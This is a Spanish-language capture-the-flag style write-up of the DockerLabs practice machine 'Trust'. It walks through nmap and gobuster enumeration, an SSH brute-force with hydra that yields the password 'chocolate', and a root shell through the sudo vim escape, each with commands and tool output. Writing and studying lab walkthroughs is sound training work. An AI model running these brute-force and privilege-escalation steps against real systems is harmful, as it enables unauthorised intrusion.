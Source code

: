 ```yaml
---
layout: single
title: Trust - DockerLabs
excerpt: "Maquina Linux vulnerada a travez de un ataque de fuerza bruta"
date: 2024-05-17
classes: wide
header:
  teaser: /assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Fuerza Buta
---
```


<p align="center">
  <img width="250" height="250" src="/assets/images/logos/logo_dockerlabs.png">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar ataque de fuerza bruta.

# Herramientas

    nmap
    hydra

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

Finalizado el escaneo podemos ver que se encuentran 2 puertos abiertos 22 que corresponde al servicio de SSH y el puerto 80 al servicio web Apache

```css
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 12:22 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.77 seconds
```

Procedo a investigar el puerto 80 en el navegador ingreso la siguiente URL `http://172.17.0.2` en el cual está la pagina de por default del servicio Apache

![](/assets/images/writetup-dockerlabs-trust/trust000.png)

La pagina no tiene nada mas interesante, por lo tanto procedo a realizar fuzzing web a ver si me encuentro con algo mas

```bash
gobuster dir -n 404 -t 64 -u http://172.17.0.2/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x txt,py,sh,php
```

| Parametro | Descripcion                     |
| --------- | ------------------------------- |
| -n        | No imprimir códigos de estado   |
| -t        | cantidad de hilos en paralelo   |
| -u        | URL                             |
| -w        | Ruta al diccionario             |
| -x        | Extensiones de archivo a buscar |

Finalizado el fuzzing se observa que hay un directorio secret.php

```css
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,py,sh,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1038215 / 1038220 (100.00%)
===============================================================
Finished
===============================================================
```

procedo a ver que hay en ese directorio ingresando la siguiente url en el navegador `http://172.17.0.2/secret.php`

![](/assets/images/writetup-dockerlabs-trust/002trust.png)

Me encuentro con el siguiente mensaje "Hola Mario, Esta web no se puede hackear." no me encuentro con nada mas en esta web, por lo tanto tengo un posible usuario llamado Mario, el cual voy a usar para hacer fuerza bruta al servicio SSH con la herramienta Hydra

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
```

| Parametro | Descripción                               |
| --------- | ----------------------------------------- |
| -l        | usario                                    |
| -P        | carga varias contraseñas desde un ARCHIVO |
| -t        | cantidad de hilos en paralelo             |
| ssh       | protocolo a atacar                        |

El ataque de fuerza bruta confirma el usuario mario y muestra la contraseña chocolate

```css
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 12:48:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344400 login tries (l:1/p:14344400), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 25 final worker threads did not complete until end.
[ERROR] 25 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 12:48:54
```

con estos datos procedo a realizar la intrusión en el equipo mediante el servicio SSH

# 2- Intrusión

Conexión a la maquina victima por el servicio SSH

```bash
ssh mario@172.17.0.2
```

al solicitar la contraseña ingreso `chocolate` y me permite el acceso a la maquina victima con el usuario mario intrusión realizada

![](/assets/images/writetup-dockerlabs-trust/003trust.png)

# 3- Escalada de privilegios

Llego de momento de escalar privilegios y ser el usuario root, para ello voy a ejeutar el siguiente comando `sudo -l` para listar los permisos de sudo que tiene el usuario actual en el sistema.

![](/assets/images/writetup-dockerlabs-trust/004trust.png)

Se observa que se puede ejecutar el binario `/usr/bin/vim` como el usuario **root**. Por lo tanto se procede a investigar en la pagina [GTFOBins](https://gtfobins.github.io/) como explotar este binario

ejecutando el siguiente comando vamos a tener acceso a root

```bash
sudo vim -c ':!/bin/sh'
```

Listo! se logró escalar privilegios a al usuario root

![](/assets/images/writetup-dockerlabs-trust/005trust.png)
